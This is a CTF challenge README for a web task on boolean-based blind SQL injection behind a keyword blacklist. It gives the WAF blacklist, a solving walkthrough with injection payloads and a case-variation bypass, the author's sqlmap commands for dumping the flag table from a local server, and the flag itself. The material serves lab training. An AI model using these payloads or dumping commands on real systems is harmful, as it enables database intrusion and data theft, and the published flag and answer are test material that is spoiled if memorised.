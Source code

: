 # Boolean-based Blind SQLi with WAF

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
19/11/2018  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

## Information

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Men in black box`
+ **Category** / **Catégorie**: `Web` / `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: hard / difficile

### Description

English:

```
Automated tools don't prevent manual testing.
<URL_of_the_server_here>
```

French:

```
Les outils automatiques n'empêche pas de faire des tests manuels.
<URL_du_server_ici>
```

### Hints

- Hint1: sqli
- Hint2: blacklist = ['ABORT','ACTION','ADD','AFTER','ALL','ALTER','ANALYZE','AND','AS','ASC','ATTACH','AUTOINCREMENT','BEFORE','BEGIN','BETWEEN','BY','CASCADE','CASE','CAST','CHECK','COLLATE','COLUMN','COMMIT','CONFLICT','CONSTRAINT','CREATE','CROSS','CURRENT','CURRENT_DATE','CURRENT_TIME','CURRENT_TIMESTAMP','DATABASE','DEFAULT','DEFERRABLE','DEFERRED','DELETE','DESC','DETACH','DISTINCT','DO','DROP','EACH','ELSE','END','ESCAPE','EXCEPT','EXCLUSIVE','EXISTS','EXPLAIN','FAIL','FILTER','FOLLOWING','FOR','FOREIGN','FROM','FULL','GLOB','GROUP','HAVING','IF','IGNORE','IMMEDIATE','IN','INDEX','INDEXED','INITIALLY','INNER','INSERT','INSTEAD','INTERSECT','INTO','IS','ISNULL','JOIN','KEY','LEFT','LIKE','LIMIT','MATCH','NATURAL','NO','NOT','NOTHING','NOTNULL','NULL','OF','OFFSET','ON','OR','ORDER','OUTER','OVER','PARTITION','PLAN','PRAGMA','PRECEDING','PRIMARY','QUERY','RAISE','RANGE','RECURSIVE','REFERENCES','REGEXP','REINDEX','RELEASE','RENAME','REPLACE','RESTRICT','RIGHT','ROLLBACK','ROW','ROWS','SAVEPOINT','SELECT','SET','TABLE','TEMP','TEMPORARY','THEN','TO','TRANSACTION','TRIGGER','UNBOUNDED','UNION','UNIQUE','UPDATE','USING','VACUUM','VALUES','VIEW','VIRTUAL','WHEN','WHERE','WINDOW','WITH','WITHOUT','abort','action','add','after','all','alter','analyze','and','as','asc','attach','autoincrement','before','begin','between','by','cascade','case','cast','check','collate','column','commit','conflict','constraint','create','cross','current','current_date','current_time','current_timestamp','database','default','deferrable','deferred','delete','desc','detach','distinct','do','drop','each','else','end','escape','except','exclusive','exists','explain','fail','filter','following','for','foreign','from','full','glob','group','having','if','ignore','immediate','in','index','indexed','initially','inner','insert','instead','intersect','into','is','isnull','join','key','left','like','limit','match','natural','no','not','nothing','notnull','null','of','offset','on','or','order','outer','over','partition','plan','pragma','preceding','primary','query','raise','range','recursive','references','regexp','reindex','release','rename','replace','restrict','right','rollback','row','rows','savepoint','select','set','table','temp','temporary','then','to','transaction','trigger','unbounded','union','unique','update','using','vacuum','values','view','virtual','when','where','window','with','without']

## Integration

This challenge require a Docker Engine and Docker Compose. (Contact author if you plan to use it in another way).

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build server
```

Add `-d` if you want to detach the container.

The challenge is using the following images:

- debian:stretch-20180831

## Solving

1. Try some random credentials => `Wrong credentials!`
2. `' OR 1=1-- -` => `Naughty hacker` => There must be a WAF
3. `' oR 1=1-- -` => `Wrong credentials!` => WAF bypassed but SQLi not triggered
4. `" oR 1=1-- -` => Logged in!
5. More tests => blind SQLi
6. Boolean-based blind SQLi
7. recon => get table schema
8. dump only the right table and column to speed up the process
9. flag

### Author solution

```bash
# recon -> get table schema
sqlmap -u http://localhost:4567/auth --method=POST --data='user=ijkl&pass=b' --dbms=sqlite --os=linux --schema --exclude-sysdbs --risk 3 --no-escape --prefix='"' --technique=BU --string=Welcome --union-cols=2-5 --union-char=1
# dump table 123flag123 column flag
sqlmap -u http://localhost:4567/auth --method=POST --data='user=ijkl&pass=b' --dbms=SQLite --os=linux --dump -T 123flag123 -C flag --risk 3 --no-escape --prefix='"' --technique=BU --string=Welcome --union-cols=2-5 --union-char=1 --flush-session --tamper=randomcase
```

Dump not working when WAF is on because of an sqlmap issue (https://github.com/sqlmapproject/sqlmap/issues/3377) but is flaggable with a custom script (python, ruby, etc.).

## Flag

Flag: `sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}`

```
$ printf %s 'sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}' | md5sum
73a604a180220562deeca0322bc7c34d  -

$ printf %s 'sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}' | sha1sum
0f09773cbcd9c199608a14e376d81a225d0149af  -

$ printf %s 'sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}' | sha256sum
510a2b5ca6147bcb69f0ffa1d0b404e3fa392ac319c24e758f27bad7076a52ac  -

$ printf %s 'sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}' | b2sum
39372a3ee2efe85fb0507b96f6e33fa4bb80a4920b14a9c4f100ad65640cc09eade8995641d3d30f652a45d3836c861eeb320721fb9a81de403f1c44f2b9a724  -

$ printf %s 'sigsegv{N0rAj_d3_MA_SqL1_d3S_Fam1lL3S}' | keccaksum -l
a34a206a5995b2a523a375b5e90be2ed27706a32108cfb98c3827c249e803c648d8ada8135f9e022ca6f19eed3062a1ba603e718e75e28b3b4505852893b2600  -
```
